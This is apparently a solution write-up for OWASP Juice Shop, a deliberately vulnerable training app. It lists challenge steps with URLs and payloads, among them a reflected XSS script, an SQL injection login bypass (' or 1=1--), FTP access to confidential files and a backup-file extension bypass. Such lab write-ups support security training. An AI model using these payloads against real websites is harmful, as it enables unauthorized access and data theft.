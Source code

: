 #### OWASP Juice Shop

###### Score Board

Find the carefully hidden 'Score Board' page

![](images/1/1.png)

![](images/1/2.png)

![](images/1/3.png)

###### Error Handling

Provoke an error that is not very gracefully handled

```
https://juice-shop.herokuapp.com/#/search?q=test';
https://juice-shop.herokuapp.com/ftp/something
https://juice-shop.herokuapp.com/ftp/something.md
```

```
https://juice-shop.herokuapp.com/#/login
Username: '
Password: shbfv
```

![](images/2/1.png)

![](images/2/2.png)

![](images/2/3.png)

![](images/2/4.png)

![](images/2/5.png)

###### XSS Tier 1

Perform a reflected XSS attack with ``<script>alert("XSS1")</script>``

```
https://juice-shop.herokuapp.com/#/search?q=<script>alert("XSSME")</script>
```

```javascript
<script>alert("XSSME")</script>
```

![](images/3/1.png)

###### Five-Star Feedback

Get rid of all 5-star customer feedback

```
https://juice-shop.herokuapp.com/#/administration
```

![](images/4/1.png)

![](images/4/2.png)

![](images/4/3.png)

###### Confidential Document

Access a confidential document

```
https://juice-shop.herokuapp.com/ftp/
https://juice-shop.herokuapp.com/ftp/legal.md
https://juice-shop.herokuapp.com/ftp/acquisitions.md
```

![](images/5/4.png)

![](images/5/1.png)

![](images/5/2.png)

![](images/5/3.png)

###### Admin Section

Access the administration section of the store

```
https://juice-shop.herokuapp.com/#/administration
```

![](images/6/1.png)

![](images/6/2.png)

###### Zero Stars

Give a devastating zero-star feedback to the store

```
https://juice-shop.herokuapp.com/#/contact
https://juice-shop.herokuapp.com/#/administration
https://juice-shop.herokuapp.com/#/about
```

![](images/7/1.png)

![](images/7/2.png)

![](images/7/3.png)

###### Login Admin

Log in with the administrator's user account

```
https://juice-shop.herokuapp.com/#/login
Username: ' or 1=1-- 
Password: dnfgbdfhjb
```

![](images/8/1.png)

![](images/8/2.png)

###### Basket Access

Access someone else's basket

![](images/9/1.png)

![](images/9/2.png)

![](images/9/3.png)

![](images/9/4.png)

![](images/9/5.png)

###### Forgotten Sales Backup

Access a salesman's forgotten backup file

```
https://juice-shop.herokuapp.com/ftp
https://juice-shop.herokuapp.com/ftp/coupons_2013.md.bak
https://juice-shop.herokuapp.com/ftp/coupons_2013.md.bak?md_debug=.md
```

![](images/10/1.png)

![](images/10/2.png)

![](images/10/3.png)

![](images/10/4.png)

![](images/10/5.png)

###### Weird Crypto

Inform the shop about an algorithm or library it should definitely not use the way it does
